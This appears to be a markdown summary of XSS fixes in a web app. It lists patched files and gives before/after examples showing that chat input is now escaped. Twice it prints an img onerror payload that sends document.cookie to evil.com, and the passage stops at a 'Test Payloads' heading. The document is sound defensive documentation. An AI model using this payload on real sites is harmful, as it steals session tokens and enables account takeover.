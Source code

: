 
## Files Modified

### Core Security (NEW)
- ✅ `public/js/security.js` - **NEW** security utilities

### Fixed Files
- ✅ `public/js/shared.js` - Chat rendering function
- ✅ `public/dashboard-luxury.html` - Vendor & task rendering
- ✅ `public/notifications-luxury.html` - All update fields
- ✅ `public/invite-luxury.html` - Invite list & member list
- ✅ `public/team-luxury.html` - All member data

### Documentation (NEW)
- ✅ `CRITICAL_XSS_SECURITY_REPORT.md` - Detailed vulnerability analysis
- ✅ `XSS_TESTING_GUIDE.md` - Testing instructions
- ✅ `PRE_LAUNCH_AUDIT_REPORT.md` - Updated with XSS findings

---

## Attack Vectors Now Blocked

### Before Fixes (CRITICAL VULNERABILITY):
```javascript
// Attacker injects in chat:
<img src=x onerror="fetch('https://evil.com?token='+document.cookie)">

// Result:
// → Script executes in all viewers' browsers
// → Session tokens stolen
// → Account takeover possible
```

### After Fixes (SECURE):
```javascript
// Same attack attempt:
<img src=x onerror="fetch('https://evil.com?token='+document.cookie)">

// Result:
// → Displays as plain text: <img src=x onerror="fetch...
// → NO execution
// → Session tokens protected
// → Users safe
```

---

## Test Payloads (All Blocked)

These now display as harmless text:
